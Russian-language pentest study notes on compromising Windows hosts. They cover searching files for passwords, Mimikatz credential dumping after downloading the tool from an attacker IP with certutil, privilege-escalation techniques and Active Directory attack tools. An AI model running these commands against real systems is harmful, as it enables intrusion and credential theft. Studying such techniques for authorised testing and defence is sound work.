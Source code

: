 ### Компрометация Windows-машин в сети

## **Материалы для самостоятельного изучения**

- [Памятка](https://github.com/frostbits-security/MITM-cheatsheet) по атакам MITM
- [Телеграмм канал](https://t.me/c4s73r_channel) Магамы Базарова - эксперта по сетевым атакам
- [Responder](https://github.com/lgandx/Responder)
- [Все об атаках](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/) на аутентификацию в Windows
- [О работе атаки](https://en.hackndo.com/ntlm-relay/) NTLM Relay


# Извлечение секретов и учетных данных
## Яркими представителями этой категории являются следующие методы повышения привилегий:
- Взлом менеджеров паролей пользователей по причине небезопасной конфигурации
- Обнаружение секретов и учетных в логах и истории команд
- Извлечение учетных данных из оперативной памяти
- Доступ к файлу, хранящемуся хеши пользовательских паролей 
- Извлечение учетных данных из конфигурации Групповых Политик

# Поиск секретов и паролей в ОС
В первую очередь мы помним, что можно попытаться самостоятельно поискать пароли в различных файлах ОС при помощи команд терминальной оболочки, например:

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Эта команда выполняет поиск строки "password" внутри всех файлов с расширениями .xml, .ini, .txt и .config в текущем диске C:.

Более подробно, каждая часть команды выполняет следующие действия:
cd C:\ — переходит в корневую папку диска C:
findstr — команда для поиска строк в файлах
/s — выполняет поиск строк во всех подпапках
/p — пропускает файлы с непечатными символами
/i — игнорирует регистр символов при поиске строк
/n — выводит номер строки, содержащей строку
/m — выводит только имя файла, если файл содержит совпадение


# Извлечение учетных данных из оперативной памяти
Самым ярким примером здесь будет извлечение учетных данных из оперативной памяти процессов.
Факт:
В Windows для реализации механизма HTTP Digest Authentication для поддержки SSO (Single Sign On) требуют знание вводимого пароля, а не только его хеша. Поэтому разработчики Windows решили хранить пароли пользователей в открытом виде. Для извлечения паролей и хешей из оперативной памяти можно использовать инструмент Mimikatz.


# Mimikatz — инструмент, реализующий функционал Windows Credentials Editor и позволяющий извлекать учетные данные пользователей Windows.
Дополнительную информацию по данному инструменту можно получить по следующим ссылкам:
• Что такое Mimikatz: руководство для начинающих — https://habr.com/ru/company/varonis/blog/539340/
•  Справка по mimikatz — https://kali.tools/?p=5342

# Применение Mimikatz
•  Для загрузки инструмента mimikatz необходимо перейти в папку с правами на запись, например в C:\Windows\System32\spool\drivers\color.
•  Далее следует загрузить mimikatz на целевую машину. Это можно сделать утилитой, позволяющей скачивать файл по сети certutil: certutil -urlcache -split -f http://10.10.14.16/mimikatz.exe m.exe
•  После запуска Mimi нужно указать следующую команду, которая предоставит текущей учетной записи права отладки процессов (SeDebugPrivilege): privilege::debug
•  Следующая команда вернет список всех хранящихся на этой машине хешей и паролей в виде незашифрованного текста:sekurlsa::logonPasswords


## Условия для Mimikatz
Для того, чтобы Mimikatz успешно извлёк пароли и хеши, необходимы права SeDebugPrivilege, которые, как правило, есть у Администратора и нечасто встречаются у рядового пользователя. Тем не менее, процедура извлечения учётных данных из памяти необходима в рамках проведения работ по пентесту для возможности как вертикального, так и горизонтального перемещения.



# Эксплуатация уязвимостей конфигурации ОС Windows
В этой категории яркими примерами возможных методов повышения привилегий будут следующие:
• Повышение привилегий через права на создание резервных копий (SeBackupPrivilege)
• Повышение привилегий через через перехват сервиса (Weak Services Permission)
• Повышение привилегий через имперсонификацию SeImpersonatePrivilege (JyicyPotato)
• Повышение привилегий через права на установку ПО (AlwaysInstallElevated)
• Повышение привилегий через изменение пути бинарного файла сервиса (Service Binary Path)
• Повышение привилегий через подмену DLL библиотек (DLL Hijacking)
• Повышение привилегий через неэкранированные пути сервисов (Unquoted Service Paths)


# Эксплуатация известных уязвимостей ОС Windows
Приведем пример некоторых достаточно популярных уязвимостей ОС, позволяющих повысить привилегии до максимальных:
• Уязвимость в установщике Windows (InstallerFileTakeOver (0day)
• Уязвимость в Windows Print Spooler (PrintNightmare)
• Уязвимость в планировщике задач Windows (MS10-092)
• Уязвимость в ядре Windows (MS16_014)
• Обработка вторичного входа в систему (MS16-032)


# Рекомендуемые ресурсы
• Hacktrics: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

# Active Directory:
• Чеклист по тестированию защищенности Active Directory: 
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
• Эксплуатация Zerologon: 
https://medium.com/mii-cybersec/zerologon-easy-way-to-take-over-active-directory-exploitation-c4b38c63a915
• Эксплуатация уязвимостей в AD CS
https://posts.specterops.io/certified-pre-owned-d95910965cd2

Помимо блогов, предлагаем вам подборку отличных инструментов, ориентированных на Active Directory, которые не только полезны, но и могут позволить вам изучить множество механизмов и протоколов Active Directory, просмотрев их код (это далеко не исчерпывающий список, и многие другие перечислены и показаны в статье выше).
• mimikatz:  вероятно, самый известный инструмент для атаки на Windows и Active Directory. Он реализует на C все виды атак для получения учетных данных с компьютеров Windows и выдачи себя за пользователей в Active Directory.
• impacket: Impacket реализует многие из протоколов на python, и стоит знать, как это работает, чтобы узнать о них больше. Он также включает в себя множество примеров, реализующих атаки, описанные в статье.
• responder.py: Responder позволяет вам выполнять множество PitM-атак, злоупотребляя протоколами разрешения Windows и предоставляя вам множество серверов протоколов, которые будут собирать NTLM-хэши. Стоит знать, как это работает.
• Rubeus: Rubeus – это пакет C# для выполнения атак Kerberos с компьютеров под управлением Windows. Вы можете проверить это, чтобы узнать много нового о том, как работает Kerberos.
• CrackMapExec: CME – это инструмент на python, который позволяет вам простым способом выполнять множество различных атак, описанных здесь.
• BloodHound: BloodHound позволяет вам сопоставлять сеть Active Directory с множеством различных запросов LDAP и другими. Вам следует проверить это, если вы хотите узнать о разведке Active Directory.
• Powerview: инструмент Powershell, который реализует множество LDAP-запросов Active Directory и других протоколов для извлечения всех видов информации из Active Directory.
• Empire: набор для развертывания агентов на компьютерах Active Directory, который позволяет выполнять все виды атак. Содержит множество инструментов для выполнения разведки и атак через Active Directory, которые стоит проверить.
